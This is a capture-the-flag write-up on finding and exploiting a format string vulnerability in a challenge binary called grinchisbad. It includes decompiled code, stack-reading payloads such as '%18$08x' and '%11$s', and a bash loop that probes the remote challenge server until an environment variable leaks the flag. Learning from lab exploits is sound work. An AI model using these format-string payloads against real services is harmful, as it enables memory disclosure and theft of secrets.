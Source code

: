 # Challenge

The Grinch is trying to get in on the action, can you find his secret?

Here have a binary!

https://htbbinaries.z1.web.core.windows.net/grinchisbad

An due to popular demand:

https://htbbinaries.z1.web.core.windows.net/libc.gz

And you can test out your efforts here:

nc grinchisbad.norwayeast.azurecontainer.io 2424

> **Hint:** An oldie, but goldie!

# Writeup

I started using strings. Multiple flags occured. I would not test all these. I then started Ghidra to dissasemble and I found this function.

```cpp
void main(void) {
  int iVar1;
  time_t tVar2;
  long in_FS_OFFSET;
  time_t local_180;
  char *local_178 [4];
  char *local_158;
  char *local_150;
  char *local_148;
  char *local_140;
  char *local_138;
  char local_128 [280];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_178[0] = "${IStole0xDEADBABE}";
  local_178[1] = "${PleaseDontEatMe!}";
  local_178[2] = "${IWonderWhere0xCAFED00DIs}";
  local_178[3] = "${ILeftAGoodJobAtThe0x0FF1CE}";
  local_158 = "${RunRunRudolph!}";
  local_150 = "${WhyIsThisHere?}";
  local_148 = "${IReallyLoveDJOiler}";
  local_140 = "${ComeOnAndFlyWithSanta!}";
  local_138 = "${CatNipForAll!}";
  tVar2 = time(&local_180);
  srand((uint)tVar2);
  iVar1 = rand();
  printf("Do you know where the Grinch is? ");
  fgets(local_128,0x100,stdin);
  printf("\nMaybe so, I don\'t know, ");
  echo(local_128);
  puts(local_178[iVar1 % 9]);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Seems like it asks for something, just outputs it and disregards it.  Then it uses iVar1 to get a random flag between 0 and 9. Which I think Ghidra wrongly dissasembled the other flags at own unused variables. I'll try to cleanup what I think is happening:

```cpp
void main(void) {
  int rnd;
  long in_FS_OFFSET;
  long initialStackPointer;
  time_t tVar2;
  time_t local_180;
  char input [280];
  
  initialStackPointer = *(long *)(in_FS_OFFSET + 0x28);

  flags[0] = "${IStole0xDEADBABE}";
  flags[1] = "${PleaseDontEatMe!}";
  flags[2] = "${IWonderWhere0xCAFED00DIs}";
  flags[3] = "${ILeftAGoodJobAtThe0x0FF1CE}";
  flags[4] = "${RunRunRudolph!}";
  flags[5] = "${WhyIsThisHere?}";
  flags[6] = "${IReallyLoveDJOiler}";
  flags[7] = "${ComeOnAndFlyWithSanta!}";
  flags[8] = "${CatNipForAll!}";

  tVar2 = time(&local_180);
  srand((uint)tVar2);
  rnd = rand();
  printf("Do you know where the Grinch is? ");
  fgets(input,0x100,stdin);
  printf("\nMaybe so, I don\'t know, ");
  printf(input); // This echo is just printf. Unessesary extras
  puts(flags[rnd % 9]);


  // Some stack smashing check
  if (initialStackPointer != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Doing a whole lot overflow testing but seems to not work. Nothing. Googling "printf exploits" leads me to [OWASP - Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack) which in case leads me to the [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)! 

> **_INFO:_** I now got a new binary, that echo function is removed. But now the binary is the same as on server! So instead of echo it is just a printf. Still same vulnerability.

Finally a breakthrough. I'll now research how to exploit this. Googling a bit more gave me this valuable [PDF](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)

So this allows me to output data from the current stack. 

```bash
$ python3 -c "print('AAAA' + '%08x.'*20)" | ./grinchisbad

Do you know where the Grinch is? 
Maybe so, I don't know, AAAA00000020.00000000.00000000.011c1719.00000000.00000000.6398f3ab.00400928.0040093c.00400950.0040096c.0040098a.0040099c.004009ae.004009c4.004009de.00000000.41414141.3830252e.252e7838.
${RunRunRudolph!}
```

This shows me that my input is located at the 18th position. I still do not know where that is. Is it in the front of the stack, back? I am clueless at this moment. But it shows 41414141 which is AAAA.

I sound found a shorthand to do this, get the value from the 18th position:

```bash
$ echo 'AAAA.%18$08x' | ./grinchisbad

Do you know where the Grinch is? 
Maybe so, I don't know, AAAA.41414141
${ILeftAGoodJobAtThe0x0FF1CE}
```

After a while I see that I can get more data out from it by doing: `%11$s` as the input. The X above is to output in hex, S is to output as string. So basically I get the content at stack position 1 and ouputs as string. So trying stack position 11 down to 8 it starts segment fault at 7. Why is this?

```bash
$ echo '%11$s' | ./grinchisbad
%11$s
Do you know where the Grinch is? 
Maybe so, I don't know, ${ILeftAGoodJobAtThe0x0FF1CE}
${IStole0xDEADBABE}
```

Looking at the startup wrapper code it seems to have stack 0x0000008 so is 8 the first stack address? This I really dont understand how works. But it matches up that 8 is the first. 

```c
void _start(undefined8 param_1,undefined8 param_2,undefined8 param_3)

{
  undefined8 unaff_retaddr;
  undefined auStack_8 [8];
  
  __libc_start_main(main,unaff_retaddr,&stack0x00000008,__libc_csu_init,__libc_csu_fini,param_3,
                    auStack_8);
  do {
                    /* WARNING: Do nothing block with infinite loop */
  } while( true );
}
```

So where is the last? As I started to see my own input at 18 I guess that is the end of it. Stack is between 8 and 18. So 10 addresses for this software I guess? **If anyone care to explain how to figure this out if it is correct and what. Please dm me!**

So wit h that in mind I made a bash script which just ran through 0 to 1000 to see if I got something funny out. 

```bash
for i in `seq 1 1000`;
do
    clear
    echo "i: $i"
    echo  '%'$i'$s' | nc grinchisbad.norwayeast.azurecontainer.io 2424
    sleep .5
done
```

Closer to 80 I begin to see computer details. So I change it to `seq 80 100` and set sleep to be 1 second so I can cancel if I see anything interesting. And behold the hidden flag. Hidden as an enviroment variable way out in 95!

```bash
i: 95
%95$s
Do you know where the Grinch is? 
Maybe so, I don't know, CKRET_FLAG=${Grinch_Stole_My_0xD15C0BABE!}
${ComeOnAndFlyWithSanta!}
```

I try this, and bingo! I would really love to learn how to exploit this a bit more. Understand how it works. 

In this git repo I've included the files:

- libc (Libc version used for compiling)
- grinchisbad (Original not quite the same as server but still exploitable)
- grinchisbad_server (Correct binary)
- remote.py (StateOfLimbo's attempt at RCE which works)
- exploit.sh (My exploit!)

In folder rce-data is things i stole from the server with the rce (source code for grinchisbad and printenv)